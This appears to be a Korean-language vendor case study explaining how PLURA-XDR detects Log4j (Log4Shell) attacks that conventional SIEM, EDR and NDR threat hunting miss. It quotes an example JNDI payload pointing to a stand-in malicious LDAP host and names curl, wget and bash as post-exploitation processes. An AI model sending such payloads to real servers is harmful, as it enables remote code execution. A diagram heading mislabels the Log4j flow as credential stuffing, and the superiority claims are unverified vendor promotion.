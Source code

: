 ## `사례 1` Log4j(Log4Shell) 취약점 공격 탐지

### **1️⃣ 기존 위협 헌팅(SIEM + EDR + NDR + TI)이 탐지하지 못하는 이유**
| **비교 항목** | **기존 위협 헌팅 (SIEM + EDR + NDR + TI)** | **PLURA 웹 요청 본문 분석 + EDR** |
|----------|-------------------------------|-------------------------------|
| **탐지 방식** | IOC(위협 인텔리전스) 기반 탐지 → 기존 패턴 매칭에 의존하여 새로운 공격 탐지 어려움 | 행위 기반 탐지 → 웹 요청 본문과 실행 행위까지 실시간 분석하여 신규 공격 탐지 가능 |
| **웹 애플리케이션 공격 탐지** | 웹 요청 헤더, URL 분석만 가능 → 요청 본문 내부의 악성 패턴 분석 불가능 | **웹 요청 본문을 실시간 분석하여 JNDI 호출 패턴 탐지 가능** |
| **네트워크 트래픽 분석** | NDR이 SSL 복호화 후 패킷 분석 가능하지만 요청 본문 분석 불가 | **요청 본문을 분석하여 JNDI 패턴 포함 여부를 확인하고 탐지 가능** |
| **엔드포인트 보안** | EDR이 실행된 프로세스를 감지 가능하지만, 웹 애플리케이션에서 발생한 공격과의 연계 분석 어려움 | **EDR이 원격 코드 실행(RCE) 발생 시, 악성 프로세스 실행(Fork, Execve) 탐지 가능** |

### **2️⃣ 기존 위협 헌팅이 탐지하지 못하는 이유 상세 설명**
1. **SIEM + TI(Threat Intelligence) 한계**  
   - 기존 SIEM 및 TI는 **정적 IOC(Indicator of Compromise) 기반 탐지**에 의존합니다.  
   - 즉, **이미 알려진 악성 IP, 도메인, 파일 해시 값 등을 기반으로 탐지**하기 때문에, Log4j처럼 **새롭게 등장한 취약점을 이용한 공격을 탐지하기 어려움**.  
   - 공격자들이 **새로운 JNDI 호출 변형(payload 변형)을 이용하면 IOC 매칭을 우회**할 수 있음.  

2. **NDR(네트워크 기반 탐지)의 한계**  
   - NDR은 **SSL 복호화를 통해 네트워크 트래픽을 분석할 수 있지만, 요청 본문(payload)까지 정밀하게 분석하지 못함**.  
   - 즉, `jndi:ldap://malicious.com/exploit` 같은 **악성 페이로드가 포함된 웹 요청의 본문을 분석할 수 없음**.  
   - 네트워크 단에서 악성 트래픽이 발생할 수 있지만, **로그의 맥락(context)을 고려한 분석이 어려움**.  

3. **EDR(엔드포인트 보안)의 한계**  
   - EDR은 웹 서버 내에서 발생하는 악성 프로세스 실행(`curl`, `wget`, `bash` 등)을 감지할 수 있음.  
   - 하지만, **웹 애플리케이션에서 공격이 시작된 원인을 직접 분석하지 못하기 때문에, 웹 요청과 실행 프로세스 간의 연관성을 파악하기 어려움**.  
   - 즉, **웹 요청 → 악성 코드 실행**까지의 공격 흐름을 제대로 분석하지 못하면, 단순한 이상 프로세스로 오탐할 가능성이 있음.  

---

### **3️⃣ PLURA 웹 요청 본문 분석 + EDR을 통한 탐지 방법**
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
   - PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 패턴을 탐지 가능.  
   - 검색창, 유저 입력값, HTTP 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  
   - 기존 WAF가 탐지하지 못하는 **다양한 JNDI 호출 변형을 분석하여 우회 공격도 탐지 가능**.  

✅ **2) 실행 행위 기반 탐지 및 차단 (EDR 연계)**  
   - 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우,  
   - PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
   - 예를 들어, 공격 성공 후 `curl`, `wget`, `bash` 등의 프로세스가 실행되면 이를 감지하여 즉시 차단 가능.  

✅ **3) 공격 흐름을 상관 분석하여 추가 공격 차단**  
   - 기존 IOC 기반 탐지가 어려운 공격이라도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격을 사전 차단 가능**.  
   - 즉, 공격자가 **JNDI 호출 변형을 사용하여 시그니처 기반 탐지를 우회**하려 해도 **행위 분석을 통해 탐지 가능**.  

---
### **4️⃣ 크리덴셜 스터핑 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```


---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR이 Log4j 공격 탐지에서 뛰어난 이유**
✅ **기존 위협 헌팅(SIEM + EDR + NDR + TI)은 IOC 기반 탐지에 의존하여 Log4j처럼 새로운 공격 패턴을 탐지하는 데 한계가 있음**.  
✅ **PLURA-XDR은 웹 요청 본문을 분석하고 행위 기반 탐지를 수행하여 Log4j 공격을 실시간으로 탐지 가능**.  
✅ **WAF를 우회하는 공격, 크리덴셜 스터핑, API Abuse, 랜섬웨어 탐지까지 대응 가능**.  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단**.  

🔹 **PLURA-XDR은 기존 보안 체계가 탐지하지 못하는 Zero-Day 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  

---

